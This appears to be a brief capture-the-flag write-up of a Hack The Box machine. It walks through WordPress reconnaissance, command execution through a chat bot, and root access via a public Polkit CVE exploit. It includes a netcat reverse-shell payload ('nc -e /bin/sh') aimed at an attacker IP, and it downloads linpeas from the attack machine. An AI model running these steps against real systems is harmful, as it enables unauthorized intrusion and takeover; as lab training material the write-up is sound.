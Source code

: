 # htb-writeup

# scan ip address
nmap -sC -sV {ip_address}

# check the open ports and see what can we discover further from it

# Get request to the URL
curl --head {ip_address}

# we get back some interesting information (office.paper)
we can add this information to out /etc/hosts file and visit the URL afterwards

# checking on the website we can see it runs WP, we can get a scan and check if there's anything exploitable
wpscan --url http://{ip_address}

# we discover that the used WP version is vulnerable 
checking the vulnerability we discover how to get to the secret/hidden page

# we add the new discovered page to /etc/hosts
once we're in we are able to start a chat we a 'bot' that can return some interesting things 

# the bot uses hubot which allows to insert custom scripts that can search for files in the directory
so we write in the chat 'list ../hubot/scripts'
afterwards we go to the file 'file ../hubot/scripts/files.js'
reading the .js file we discover we can run commands with 'run'

# on our attack machine we pop up a netcat listener
nc -nlvp {port}

# inside of the chat we run the command 
nc -e /bin/sh <attack_ip> {port}

# and we have a connection, listing the directories we find the one with the user flag!
for a more stable shell we run
python -c 'import pty;pty.spawn("/bin/bash")'

# next we want to check for some privesc, we can use linpeas.sh
to transfer it we start a webserver on out attack machine and from the target we can wget the file

# after transfering the file, we chmod it to be able to run it on the target machine

# with linpeas we discover some interesting files related to the rocket chat and a specific user, we can use that to login into the machine with ssh

# in order to further escalate and get our root flag, we search for an exploit.
I've used the following https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation", which enumerates and adds a user

# we run the poc.sh after we chmod it 
adds a user, we try to switch to that specific user using the password 'secnigmaftw' with 'su secnigma'

# in order to get root
we run 'sudo bash' and we insert the previous password we got for the newly added user

# we have root, check the directories and find the flag!
